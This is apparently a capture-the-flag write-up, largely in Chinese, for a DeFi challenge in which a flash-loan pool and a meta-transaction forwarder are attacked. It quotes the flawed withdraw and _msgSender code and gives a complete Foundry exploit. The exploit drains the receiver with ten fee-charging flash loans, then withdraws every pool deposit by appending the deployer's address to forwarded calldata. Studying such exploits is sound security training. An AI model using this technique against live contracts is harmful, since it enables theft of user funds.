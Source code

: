 # Solution

## 题目

There’s a pool`NativeReceiverPool` with 1000 WETH in balance offering flash loans. It has a fixed fee of 1 WETH. 

The pool supports meta-transactions by integrating with a permissionless forwarder contract`BasicForwarder`. 

A user deployed a sample contract`FlashLoanReceiver` with 10 WETH in balance. Looks like it can execute flash loans of WETH.

Get all WETH from the user and the pool, and deposit it into the designated recovery account.



## 问题

1. `FlashLoanReceiver`继承了IERC3156FlashBorrower的onFlashLoan标准，但是写出了一个没有限制可以任意人call的函数，也就是说任何人可以通过调用`FlashLoanReceiver::onFlashLoan()` 或者`NaiveReceiverPool::flashLoan()`的函数来进行FlashLoan并支付手续费，而`FlashLoanReceiver`的10ETH这样在外部任意人员调用10次后消耗完，并转入`NaiveReceiverPool`中。

   但值得注意的是，本节中没有`_executeActionDuringFlashLoan()`的逻辑，如果有这段逻辑则一般会在合约不产生套利盈利的情况下revert。



2. 这个小节的关键在于`NaiveReceiverPool`可以被盗取所有资金，因为`withdraw()`函数的设计有问题，`_msgSender()`函数可以在我们的设计下传出任意地址，导致资金被盗取。

```solidity
    function withdraw(uint256 amount, address payable receiver) external {
        // Reduce deposits
        deposits[_msgSender()] -= amount;
        totalDeposits -= amount;

        // Transfer ETH to designated receiver
        weth.transfer(receiver, amount);
    }

    function _msgSender() internal view override returns (address) {
        if (msg.sender == trustedForwarder && msg.data.length >= 20) {
            return address(bytes20(msg.data[msg.data.length - 20:]));
            ///msg.data一般call的情况下是函数选择器4位+每个参数32位
            //在withdraw函数中，有两个参数，所以msg.data.length = 4 + 32 + 32 = 68，绝对大于20
            //本来msg.data[msg.data.length - 20:]预期上可以取数据的最后的20位，即第二个参数的地址，
            //但是谁都可以最后在calldata的数据中再加上20位地址进行call，所以这里是不安全的
        } else {
            return super._msgSender();
        }
    }
```

在这个案例中，完成部署时，所有ETH在deployer对应的`deposits`mapping上,只要`_msgSender()`返回的最后是deployer的地址就可以全部取出。

即达成`address(bytes20(msg.data[msg.data.length - 20:])=address(deployer)`

为达成这个效果，首先我们需要`BasicFowarder::execute()`发送`withdraw(uint256,address)`操作，且msg.data对应能转为deployer的地址

> `BasicForwarder` 是一个 **可信任交易转发器（Trusted Forwarder）**，属于元交易（Meta-Transaction）模式。它允许用户通过签名委托第三方代为执行链上操作，而无需用户自己支付 gas。典型应用场景包括：
>
> - 用户无 ETH 但需要与合约交互（如 DApp 的 gas 代付）
> - 批量交易的聚合执行
> - 跨链操作中继

````solidity
    function execute(Request calldata request, bytes calldata signature) public payable returns (bool success) {
        _checkRequest(request, signature);

        nonces[request.from]++;

        uint256 gasLeft;
        uint256 value = request.value; // in wei
        address target = request.target;
        bytes memory payload = abi.encodePacked(request.data, request.from);
        uint256 forwardGas = request.gas;
        assembly {
            success := call(forwardGas, target, value, add(payload, 0x20), mload(payload), 0, 0) // don't copy returndata
            gasLeft := gas()
        }

        if (gasLeft < request.gas / 63) {
            assembly {
                invalid()
            }
        }
    }
````

其中关键涉及assembly中的`call()`方法，`call()`的详细描述如下：

> `call(g, a, v, in, insize, out, outsize)`
>
> call contract at address a with input mem[in…(in+insize)) providing g gas and v wei and output area mem[out…(out+outsize)) returning 0 on error (eg. out of gas) and 1 on success
>
> **where** mem[a...b)` signifies the bytes of memory starting at position `a` up to but not including position `b



对于这个案例，call中具体参数如下：

`call(forwardGas, target, value, add(payload, 0x20), mload(payload), 0, 0)`

- `forwardGas`：分配给本次调用的 gas 限额。(来自request结构体)
- `target`：被调用的合约地址（类型为 `address`）。(来自request结构体)
- `value`：随调用发送的以太币数量（单位：wei）。(来自request结构体)
- `add(payload, 0x20)`：输入数据的起始内存地址。`payload` 是 `bytes` 类型的内存指针，前 32 字节存储长度，`+0x20` 跳过长度，指向实际数据。
- `mload(payload)`：输入数据的长度。`mload(p)`在这里会读取mem[p...p+32)这段内存中的字节大小 。
- `0, 0`：输出参数。表示不将返回数据复制到内存（节省 gas）。

**如何理解？**

```solidity
function func() public {
  bytes memory payload = abi.encodePacked("data",address(this));

  uint256 initM;
  uint256 initSizeM;
 assembly {
           initM := add(payload, 0x20) // don't copy returndata
           initSizeM:= mload(payload)
        }

init = initM;
initSize = initSizeM;
payLoad = payload;
}

在这段代码中，payload是24字节的数据，0x646174611d142a62e2e98474093545d4a3a0f7db9503b8bd

initSize用mload读取就是等于24（在Yul的assembly中只有uint256一种数据类型）

init读取的值是160,这是因为payload内容在0x80上（solidity默认指针指向的位置,自由指针在0x40上指向0x80）
0x80存着0000000........0018 (payload数据大小)
0xA0存着00000....646174611d142a62e2e98474093545d4a3a0f7db9503b8bd(payload实际数据)

这意味着add(payload,0x20)=add(0x80,0x20)，所以等于160(0xA0)
```

理解完后那么整体的流程基本如下：

![alt text](image.png)


```solidity 
function test_naiveReceiver() public checkSolvedByPlayer {
        bytes[] memory callDatas = new bytes[](11);
        for(uint i=0; i<10; i++){
            callDatas[i] = abi.encodeCall(NaiveReceiverPool.flashLoan, (receiver, address(weth), 0, "0x"));
        }
        callDatas[10] = abi.encodePacked(abi.encodeCall(NaiveReceiverPool.withdraw, (WETH_IN_POOL + WETH_IN_RECEIVER, payable(recovery))),
            bytes32(uint256(uint160(deployer)))
        );
        bytes memory callData;
        callData = abi.encodeCall(pool.multicall, callDatas);
        BasicForwarder.Request memory request = BasicForwarder.Request(
            player,
            address(pool),
            0,
            30000000,
            forwarder.nonces(player),
            callData,
            1 days
        );
        bytes32 requestHash = keccak256(
            abi.encodePacked(
                "\x19\x01",
                forwarder.domainSeparator(),
                forwarder.getDataHash(request)
            )
        );
        (uint8 v, bytes32 r, bytes32 s)= vm.sign(playerPk ,requestHash);
        bytes memory signature = abi.encodePacked(r, s, v);
        require(forwarder.execute(request, signature));
    }
    //写的不如我自己写的好


```

